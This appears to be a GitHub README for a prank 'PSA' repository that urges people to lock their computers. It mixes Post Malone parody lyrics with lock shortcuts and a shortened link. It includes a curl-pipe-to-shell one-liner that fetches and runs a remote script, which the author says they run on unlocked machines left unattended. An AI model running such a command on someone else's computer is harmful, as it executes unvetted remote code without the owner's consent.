 # This is PSA

```
It's a moment when I show up, got 'em sayin', "Wow" (Wow, wow)
```

Don't worry, I won't do anything _too_ bad.

It's very simple to lock your computer before getting up and going somewhere else without it. Unfortunately, not many people do this. What a shame.

On Macs, it's as simple as `cmd + ctrl + q`.

On Windows, it's as simple as `win + L`

This is my declaration (to the tune of Sunflower by Post Malone):

```
Needless to say, I keep it in git
Security boo boo, nevertheless (yeah)
Callin' a shell script, baby, you'll be hacked (hacked)
Check your background, baby, you've been hacked (hacked)
```

I will run this if you leave your computer unlocked and walk away:

```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/chrisarevir/malone-protocol/master/protocol.sh)"
```

While we may be getting more secure to cyber-based espionage, there's nothing that beats a little social engineering. Letting the wrong person get physical access to your computer can be harmful, even if not immediately apparent.

```
http://bit.ly/g-wagon
```
